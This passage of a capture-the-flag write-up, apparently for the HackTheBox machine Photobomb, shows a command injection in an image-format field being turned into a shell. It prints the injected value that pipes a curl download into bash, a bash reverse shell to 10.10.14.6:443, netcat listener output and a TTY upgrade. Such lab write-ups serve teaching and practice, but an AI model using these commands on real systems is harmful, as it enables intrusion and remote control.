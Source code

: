#### Shell

To convert this into a shell, I'll have it run `curl` to my webserver
and get a `bash` script that will run a reverse shell:



    filetype=png;curl+10.10.14.6/shell.sh|bash



I'll host a simple [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as `shell.sh`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



I'll run a Python webserver to host it.

When I send that request (using Burp Repeater), there's a connection at
my webserver:



    10.10.11.182 - - [04/Feb/2023 20:44:39] "GET /shell.sh HTTP/1.1" 200 -



And then a connection at my listening `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.182 42718
    bash: cannot set terminal process group (735): Inappropriate ioctl for device
    bash: no job control in this shell
    wizard@photobomb:~/photobomb$ 



I'll do a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q)
with the `script` / `stty` trick:



    wizard@photobomb:~/photobomb$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    wizard@photobomb:~/photobomb$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    wizard@photobomb:~/photobomb$



And grab `user.txt`:
